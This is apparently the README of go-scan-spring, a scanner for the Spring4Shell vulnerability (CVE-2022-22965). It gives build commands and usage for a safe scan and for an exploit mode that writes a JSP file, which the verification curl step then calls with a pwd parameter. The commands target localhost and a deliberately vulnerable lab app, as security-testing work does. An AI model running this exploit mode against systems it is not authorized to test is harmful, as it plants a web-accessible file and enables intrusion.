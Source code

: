 <h1 align="center">
  <br>
    go-scan-spring
  <br>
  <br>
</h1>

<h4 align="center">Vulnerability scanner to find Spring4Shell (CVE-2022-22965) vulnerabilities</h4>
<p align="center">For more information: <a href="https://www.fracturelabs.com/posts/effective-spring4shell-scanning-exploitation/">https://www.fracturelabs.com/posts/effective-spring4shell-scanning-exploitation/</a></p>
<p align="center">
  <a href="https://twitter.com/fracturelabs"><img src="https://img.shields.io/badge/twitter-%40fracturelabs-orange.svg" alt="@fracturelabs" height="18"></a>
  <a href="https://twitter.com/brkr19"><img src="https://img.shields.io/badge/twitter-%40brkr19-orange.svg" alt="@brkr19" height="18"></a>
</p>
<br>

# Build
```bash
git clone https://github.com/fracturelabs/go-scan-spring.git
cd go-scan-spring
```

# Usage
## Help
```bash
go run main.go help scan
```
## Basic safe scan
```bash
go run main.go scan --run-safe -f urls.txt
```

## Basic safe exploit
Use your own unique `identifier` parameter!

```bash
# Using HTTP GETs and POSTs
echo http://localhost:8080/spring4shell_victim/vulnerable | go run main.go scan -f - --identifier 550bafe0-0c6c-4f3e-a46b-0901c28e690b --run-exploit

# Using only HTTP GETs
echo http://localhost:8080/spring4shell_victim/vulnerable | go run main.go scan -f - --identifier 550bafe0-0c6c-4f3e-a46b-0901c28e690b --run-exploit --http-post=false

# Using only HTTP POSTs
echo http://localhost:8080/spring4shell_victim/vulnerable | go run main.go scan -f - --identifier 550bafe0-0c6c-4f3e-a46b-0901c28e690b --run-exploit --http-get=false
```

### Verification
You can verify the script works properly by testing against an intentionally vulnerable system, such as [spring4shell_victim](https://github.com/fracturelabs/spring4shell_victim)

```bash
curl --output - 'http://localhost:8080/go-scan-spring/550bafe0-0c6c-4f3e-a46b-0901c28e690b-AD.jsp?pwd=550bafe0-0c6c-4f3e-a46b-0901c28e690b'
```


# Credits
* The entire structure and several functions were borrowed heavily from the wonderful [GoWitness](https://github.com/sensepost/gowitness) project from SensePost.
* The safe check implemented in this was inspired by [The Randori Attack Team](https://twitter.com/RandoriAttack/status/1509298490106593283) and [Zach Grace](https://twitter.com/ztgrace)
* Whoever created the first PoC - stuff is moving too fast to properly attribute this right now!
